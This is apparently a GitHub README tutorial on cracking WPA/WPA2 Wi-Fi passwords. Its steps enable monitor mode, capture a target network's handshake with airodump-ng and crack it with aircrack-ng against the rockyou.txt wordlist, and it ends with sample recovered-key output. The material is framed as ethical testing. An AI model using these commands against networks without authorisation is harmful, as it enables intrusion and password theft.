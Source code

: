 # WiFi Password Cracking

This documentation demonstrates how to perform a WPA/WPA2 Wi-Fi handshake capture and password cracking using Aircrack-ng inside Kali Linux. This is done **ethically** for testing purposes **on your own network** only.

---

## ⚠️ Legal Disclaimer

> 🚨 This documentation is **for educational and ethical testing purposes only**.  
> You must have **explicit permission** to test any network. Unauthorized access is **illegal** and punishable by law.

---

## 📦 Requirements

- **Kali Linux** (on VirtualBox/VMware or bare-metal)
- **External USB Wi-Fi Adapter (Wi-Fi Dongle)**  
  Must support:
  - **Monitor Mode**
  - **Packet Injection**  
  ✅ Examples:
  - ALFA AWUS036ACH  
  - TP-Link TL-WN722N v1

- `aircrack-ng` suite
- `rockyou.txt` wordlist or custom dictionary

---

## 🛠 Installation

```bash
sudo apt update
sudo apt install aircrack-ng
```
📡 Wi-Fi Hacking Steps (WPA/WPA2 Cracking)
------------------------------------------

### 🔌 1. Connect External Wi-Fi Adapter

> 💡 **Note:** If you're using a VM, your internal Wi-Fi card won't support monitor mode. Use an external USB Wi-Fi adapter.

### 🔍 2. Find Wireless Interface

```bash
iwconfig
```
Check for interface like `wlan0`.

### 🛑 3. Set Interface to Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```
### 📶 4. Start Airodump to Discover Networks

```bash
sudo airodump-ng wlan0
```
Note the **BSSID**, **channel**, and **ESSID** of the target network.

### 🎯 5. Capture the Handshake

Replace `<BSSID>` and `<channel>` with target info:

```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0
```
Wait until you see:\
`WPA Handshake: <BSSID>`

### 💥 6. Crack the Handshake

```bash
sudo aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```
> If `rockyou.txt` is missing, extract it using:

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
### ✅ 7. If Password Found

Output will show:

```text
KEY FOUND! [ your_wifi_password ]
```
* * * * *

🧪 Sample Output
----------------

```text
KEY FOUND! [ iloveyou ]

Master Key     : 34 4D B2 ...
Transient Key  : F1 52 5B ...
EAPOL HMAC     : 4B 63 5E ...
```
* * * * *

📁 Files in this Repo
---------------------

| File Name | Description |
| --- | --- |
| `capture-01.cap` | Captured handshake file (example) |
| `README.md` | Documentation |

* * * * *

👨‍💻 Author
------------

[**Jagadish Tripathy**](https://www.linkedin.com/in/jagadishtripathy/)  
CEH v.12

* * * * *

⭐ Support
---------

If this documentation helped you, consider giving it a ⭐ on GitHub!
